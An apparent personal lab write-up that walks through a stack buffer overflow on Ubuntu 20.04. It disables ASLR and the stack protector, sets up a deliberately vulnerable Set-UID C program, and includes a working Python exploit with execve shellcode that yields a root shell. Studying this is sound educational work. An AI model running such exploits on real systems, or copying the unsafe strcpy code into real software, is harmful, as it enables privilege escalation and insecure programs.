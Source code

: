 ```yaml
---
title: "Stack Buffer Overflow"
date: 2021-01-31T14:47:41+08:00
draft: false
---
```


The goal of the following experiments is to exploit buffer overflow attack and get the root privilege of the shell. 



## Setup

Environment:

1. Google cloud virtual machine: Ubuntu 20.04
2. Linux kernel version: 5.4.0 

Countermeasures:

1. ASLR (address space layout randomization) provided by the operating system
2. NX/DEP bit provided by the hardware architecture
3. StackGuard or canary mechanism provided by the compiler 

Check if ASLR is activated or not (default is 2):

```
$ cat /proc/sys/kernel/randomize_va_space 
2
```

Disable ASLR:

```
$ sudo sysctl -w kernel.randomize_va_space=0
kernel.randomize_va_space = 0
```

In the most recent Ubuntu operating systems, the /bin/sh points to the /bin/dash. Dash can prevent itself from being executed in a Set-UID process since it detects if the effective UID equals to real UID or not. More details about dash history can be found [here](https://bugs.launchpad.net/ubuntu/+source/dash/+bug/1215660). 

```
$ cd /bin && ls -l | grep "sh"
lrwxrwxrwx 1 root   root            4 Jan 29 23:22 sh -> dash
```

So we use another shell called zsh that does not have such a security countermeasure. 

```
$ sudo ln -sf /bin/zsh /bin/sh
```



## Vulnerable program

Here is a vulnerable program. It reads something from a file called badfile, then copy the content into the buffer. The program (the function strcpy()) does not limit the input from the user, so we can exploit this vulnerability. That is, we can make the program crash or execute some malicious code with buffer overflow attack. 

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#ifndef BUF_SZ 
#define BUF_SZ 100
#endif 

int bof(char *str)
{
    char buffer[BUF_SZ]; 
    strcpy(buffer, str);        // buffer overflow attack 
    return 1; 
}

int main(int argc, char** argv)
{
    char str[517]; 
    FILE* badfile; 

    badfile = fopen("badfile", "r"); 
    fread(str, sizeof(char), 517, badfile);     // read contents from badfile
    bof(str);                                   // copy to the buffer
    printf("Return properly\n"); 

    return 1; 
}
```

Compile the vulnerable program as follows, the flag "-z execstack" means to make the stack executable (since stacks are non-executable by default) and "-fno-stack-protector" means to disable the StackGuard protection. 

```
$ gcc -DBUF_SZ=100 -m32 -g -o stack-dbg -z execstack -fno-stack-protector stack.c
$ sudo chown root stack
$ sudo chmod 4755 stack 
```

```
$ ls -l | grep "stack"
-rwsr-xr-x 1 root ychin_chuang 15708 Jan 31 08:10 stack
```

Use gdb debugger to figure out the distance between the buffer and return address. As you can see, the distance is 0xffffd2a8 - 0xffffd23c  + 4 (the size of ebp) = 112. 

![](https://github.com/chuang76/image/blob/master/ch2-1.PNG?raw=true)



## Exploit

The shellcode in the following exploit program aims to execute "/bin/sh". We can use NOP-sled as a strategy to hit the start of our shellcode. NOP (0x90) means do nothing in the CPU instruction, so we can just slide in the buffer until reach the shellcode. Note that `ret` is 0xffffd2a8 plus some number. That is because the gdb pushes some environment data into the stack before running the program. Since the stack grows downwards in x86 processors, the actual frame pointer without debugging mode will be larger than 0xffffd2a8. 

```
#!/usr/bin/python3

import sys 
shellcode = (
        "\x31\xc0"
        "\x50"
        "\x68""//sh"
        "\x68""/bin"
        "\x89\xe3"
        "\x50"
        "\x53"
        "\x89\xe1"
        "\x99"
        "\xb0\x0b"
        "\xcd\x80"
    ).encode('latin-1')

# fill with NOPs 
content = bytearray(0x90 for i in range(517))

start = 517 - len(shellcode)
content[start:] = shellcode
ret = 0xffffd2a8 + 120     
offset = 112 
L = 4                       # 32-bit 

# modify the return address
content[offset:offset+L] = (ret).to_bytes(L, byteorder='little')

with open('badfile', 'wb') as f:
    f.write(content)
```

So we can launch an attack. 

```
$ rm badfile
$ python3 exploit.py 
$ ./stack 
# whoami 
root 
```

![](https://github.com/chuang76/image/blob/master/ch2-2.png?raw=true)

